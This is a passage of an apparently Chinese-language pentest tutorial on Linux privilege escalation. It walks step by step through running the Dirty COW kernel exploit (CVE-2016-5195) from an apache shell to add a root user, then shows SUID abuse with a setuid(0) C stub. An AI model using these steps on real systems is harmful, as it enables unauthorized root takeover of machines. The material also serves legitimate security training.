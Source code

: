 以脏牛提权-CVE-2016-5195为例  Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复

1. 查看目标主机用户权限

    ```sql
    id
    ```

2. 获取主机内核版本

    ```sql
    (apache:/var/www/html) $    cat /proc/version
    Linux version 3.10.0-862.el7.x86_64 (builder@kbuilder.dev.centos.org) (gcc version 4.8.5 20150623 (Red Hat 4.8.5-28) (GCC) ) #1 SMP Fri Apr 20 16:44:24 UTC 2018
    (apache:/var/www/html) $    uname -a
    Linux localhost.localdomain 3.10.0-862.el7.x86_64 #1 SMP Fri Apr 20 16:44:24 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    ```

3. 寻找对应exp
4. 将exp下载到目标主机编译执行

    ```python
    gcc -pthread dirty.c -o dirty -lcrypt   #编译
    ./dirty 新增用户的密码 #执行
    ./dirty 123  
    cat /etc/passwd  #查看是否新增用户
    mv /tmp/passwd.bak /etc/passwd     #销毁firefart密码文件即可恢复root
    ```

### Linux-suid提权

当执行这个程序时会临时切换身份为文件所有者身份.

权限设定方法:

1. 字母表示法

    chmod u+s FILE   添加SUID权限

    chmod u-s FILE    删除SUID权限

2. 数字表示法:

    chmod 4755 FILE      添加SUID权限到二进制程序文件 **在普通三位数字权限之前，用4代表添加到SUID位

    chmod 0xxx FILE     可以删除文件的SUID

#### suid提权步骤

##### suid 利用自定义文件提权步骤

1. 编写简单demo.c 内容为以root权限，切换到ichungiu用户，实现第三方免密用指定账号登录系统

    ```bash
    #include<unistd.h> 
    void main(){ 
    setuid(0); 
    setgid(0); 
    system("su - ichunqiu");
    }
    ```

